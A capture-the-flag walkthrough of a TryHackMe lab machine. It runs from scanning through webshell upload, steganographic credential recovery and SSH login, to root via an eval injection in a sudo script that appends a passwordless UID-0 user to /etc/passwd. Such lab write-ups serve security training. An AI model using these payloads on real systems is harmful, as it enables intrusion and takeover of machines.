# Difficult: Easy #
## Note: Welcome to the web application of U.A., the Superhero Academy.
### Link: https://tryhackme.com/r/room/yueiua

---------------------------------------------------------------------------

## Recon:
+ Scan the machine with Nmap and Gobuster:

```bash
nmap -sV -vv -A -p- <IP>
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC4WNbSymq7vKwxstoKDOXzTzNHnE4ut9BJPBlIb44tFvtMpfpXDF7Bq7MT9q4CWASVfZTw763S0OrtvpBFPpN/4eOvlircakFfkR3hZk7dHOXe8+cHXDth90XnMa2rq5CfxwinqP/Mo67XcpagbpU9O5lCatTMPWBUcEhIOXY8aUSMkmN6wRYSxdI40a4IYsjRqkqsdA6yaDQBSx+ryFRXwS9+kpUskAv452JKi1u2H5UGVX862GC1xAYHapKY24Yl6l5rTToGqTkobHVCv6t9dyaxkGtc/Skoi2mkWE/GM0SuqtbJ9A1qhSrfQRNpcIJ6UaVhDdUeO3qPX2uXPyLrY+i+1EgYEsRsxD5ym0bT1LPby8ONPduBEmZfnNoN5IBR05rQSSHhj349oNzDC4MRn2ygzOyx0n0c7wqffaAuohbu0cpeAcl5Nwb/Xw42RABDFQx08CttjNmtPMK/PqFt+H4nubyp7P8Pwctwi3wLf2GbU1lNgT0Ewf2GnfxY5Bs=
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC+IqWgEnT5Asc+8VrYsQACkIjP+2CKuoor+erbKjpKwM8+X+1TPuwG56O6LxOLXeS2/pFjv9PBFI1oqHKa4GNw=
|   256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHQa5m2TxGI3a9ZwhAd0zWsAYwCsYANdo6fgpS8XiJKL
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: U.A. High School
|_http-server-header: Apache/2.4.41 (Ubuntu)
OS fingerprint not ideal because: maxTimingRatio (1.694000e+00) is greater than 1.4
```


```bash
gobuster dir -u http://<IP> -w /usr/share/wordlist/dirb/common.txt -xtxt -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://<IP>>/assets/]
/index.html           (Status: 200) [Size: 1988]
/server-status        (Status: 403) [Size: 278]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================
```

--> Try access /assets/ we've seen nothing so we will continue to scanning  /assets/

```bash
gobuster dir -u http://<IP>/assets/ -w /usr/share/wordlist/dirb/common.txt -xtxt,php,html -t64
/images               (Status: 301) [Size: 322] [--> http://<IP>/assets/images/]
/index.php            (Status: 200) [Size: 0]
```

--> Try to access /images we've recived the message "Forbidden" because we don't have the permission to access into the page.
 
 + In this case, we've accessed /index.php so we can think that we try to query directly above the url.
 + We try some common parameters like ?page or ?cmd:  



--> We've done successfully so we've known that is the vulnerability Upload Fille.
Form that we can upload webshell into the server and RCE.

+ Now upload file shell and RCE the target:




+ Access /webshell.php and netcat the opened port.



--> Access successfully but we don't have the permission to access file user.txt or .ssh

+ We will back to scan the directory server and find the potential files

```bash
www-data@myheroacademia:/home/deku$ cd /var/www/
www-data@myheroacademia:/var/www$ ls
Hidden_Content	html
www-data@myheroacademia:/var/www$ cd Hidden_Content/
www-data@myheroacademia:/var/www/Hidden_Content$ ls
passphrase.txt
www-data@myheroacademia:/var/www/Hidden_Content$ cat passphrase.txt 
QWxsbWlnaHRGb3JFdmVyISEhCg==
www-data@myheroacademia:/var/www/Hidden_Content$ 
```
--> Decode the passphrase: "AllmightForEver!!!"

+ Back /assets/images/ we've found the file images which maybe some stegano in here.
+ Download all images to attack machine and start scanning.
+ Using exiftool to scan all images:





--> 2 Images are .jpg but format image oneforall.jpg is PNG so this is issue we can exploit it.

+ Try steghide to extract 2 images with passphrase we've found previous.
--> Not work so we are back image oneforall.jpg and we use tool to edit it right format.

+ Use hexeditor to edit image:



--> Use checklit format file to edit image format from PNG to JPG/JPEG
"https://en.wikipedia.org/wiki/List_of_file_signatures"





--> After editing, we check again with exiftool and now we can extract image again.



+ Read file and we've gotten the credential SSH of user deku.

--> deku:One?For?All_!!one1/A

+ Login SSH with credential we've found:



## Privilege Escalation ##

```bash
deku@myheroacademia:~$ sudo -l
[sudo] password for deku: 
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```

+ Check the file bash:

```bash
if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
```
--> $feedback will don't accept these characters if we input them.
```
 \ \$( ) | & ; ? ! 
```

+ Run file feedback.sh with sudo:



--> We are able to create new file with feedback.sh and the important is file that is root permission.

+ Idea: Alternatively we can use the following lines to add a dummy user without a password by feedback.sh

```bash
deku@myheroacademia:/opt/NewComponent$ sudo ./feedback.sh 
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
dummy::0:0::/root:/bin/bash >> /etc/passwd
It is This:
Feedback successfully saved.
deku@myheroacademia:/opt/NewComponent$ cat /etc/passwd
...
dummy::0:0::/root:/bin/bash
```

```bash
deku@myheroacademia:/opt/NewComponent$ su -p dummy
root@myheroacademia:/opt/NewComponent# id
uid=0(root) gid=0(root) groups=0(root)
root@myheroacademia:/opt/NewComponent# cd /root
root@myheroacademia:/root# ls
root.txt  snap
```
END!!!